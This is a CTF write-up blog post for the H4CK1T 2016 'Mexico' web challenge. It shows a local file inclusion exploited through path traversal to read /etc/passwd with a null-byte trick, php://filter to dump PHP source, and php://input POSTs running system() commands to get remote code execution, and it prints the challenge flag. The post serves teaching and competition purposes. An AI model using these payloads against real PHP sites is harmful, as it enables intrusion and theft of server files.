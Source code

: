 ```yaml
---
title: '[H4CK1T 2016] Pentest – Mexico Writeup'
author: Megabeets
type: post
date: 2016-10-02T20:54:26+00:00
url: /h4ck1t-2016-pentest-mexico/
categories:
  - H4CK1T CTF 2016
  - Writeups
tags:
  - CTF
  - H4CK1T
  - Web
  - Writeups

---
```

### **Description:**

> **Task: Remote pentest &#8211; Mexico &#8211; 150 &#8211; Web**
> 
> <span style="font-weight: 400;">Our foreign partners have some problems with qualified staff in the field of information technology, we decided to help them and to conduct remote testing of their new website. Your task is to find a hole in the system and grab some information to confirm the hack .Good luck !</span>  
> [<span style="font-weight: 400;">http://91.231.84.36:9150/</span>][1]

YAY! Web challenge! If you are following my blog <span style="font-size: 10pt;"><em>(If not, the subscribe form is on left)</em></span> you already know how much I love web challenges, It&#8217;s either easy points or great puzzle.

Let&#8217;s open the website and see what we have:

<img src="./h4ck1t_mexico1.png" /> 

WOW! JUSTICE LEAGUE! Did I mentioned that I love comic books and especially Batman? Oh, Not yet?

Well, this challenge is going to be awesome. No. It&#8217;s already awesome!

OK, deep breath. Let&#8217;s start. See that menu on the bottom? Let&#8217;s click on some link to see what will happen.

<img src="./h4ck1t_mexico2.png" /> 

Look at the URL, the &#8220;about&#8221; page is included by the &#8220;index.php&#8221; using php commands &#8216;require&#8217; or &#8216;include&#8217;. When we see something like that in a challenge we can check if the site is vulnerable to LFI attack. In Local File Inclusion attack we can include pages from the local server. Let&#8217;s try to include /etc/passwd to check for the existence of the vulnerability

http://91.231.84.36:9150/index.php?page=../../../../etc/passwd

Didn&#8217;t work. Let&#8217;s try to add null byte at the end

http://91.231.84.36:9150/index.php?page=../../../../etc/passwd%00

<img src="./h4ck1t_mexico3.png" /> 

It worked! We successfully got the /etc/passwd file. So what now? Let&#8217;s try to read the pure php file to see if the flag is in the php pages.

We can use php://filter to print the content of index.php in base64 format. We need to encode the content because we don&#8217;t want the php engine to compile the php parts of the code.

http://91.231.84.36:9150/index.php?page=php://filter/convert.base64-encode/resource=index

We got encoding page, now let&#8217;s decode it and see if we find a flag . I deleted some content to decrease the size of the code in the post.

```php
<?php
    if ($_GET["page"]) {
    $file = $_GET["page"].".php";
    // simulate null byte issue
    $file = preg_replace('/\x00.*/',"",$file);
        include($file);
    } 
    else
    {
        echo '    <div class="container">
        <div class="row">
            <div class="col-md-6 col-sm-12">
                <h1>The Big Picture</h1>
                <p>Welcome to the Big Picture. This fantastic digital resource combines the best of formal and informal learning. 
If you are already using The Big Picture, you can register for and access exclusive extra material from this platform. 
This is The Big Picture: have you experienced it yet?  </p> 
            </div>
        </div>';
    }
    //flag{h@h@h@_man_n1ce_try} 

?>
<!DOCTYPE html>
<html class="full" lang="en">
<head>

...
...
...

    </div>
    <script src="js/jquery.js"></script>
    <script src="js/bootstrap.min.js"></script>

</body>

</html>

```


&nbsp;

Nope. No flag. The &#8220;flag{&#8230;}&#8221; thing isn&#8217;t really the flag because the flag in this CTF should be in h4ck1t{&#8230;} format.  
Also the other pages like &#8216;about&#8217; and &#8216;contact&#8217; is not contain any flag. So we probably need to perform LFI to RCE (Remote Code Execution) attack. We can use the php://input method to send php commands through Post requests. Using Firefox Hackbar plugin we can do it easily.  
Put the URL to be http://91.231.84.36:9150/index.php?page=php://input  And the POST data to be

```default
<?  system('ls') ;?>
```


<img src="./h4ck1t_mexico4.png" /> 

Success. We got the RCE and we now know about a new secret file. Let&#8217;s read it using the same way but this time with

```php
 <?  system('cat file') ;?>
```


And we got the flag 🙂

`<strong>Flag: </strong><em>h4ck1t{g00d_rfi_its_y0ur_fl@g}</em>`

<div class="nf-post-footer">
  <p style="text-align: right">
    <a href="https://www.megabeets.net/about.html#vegan"><img src="./megabeets_inline_logo.png" />Eat Veggies</a>
  </p>
</div>

 [1]: http://91.231.84.36:9150/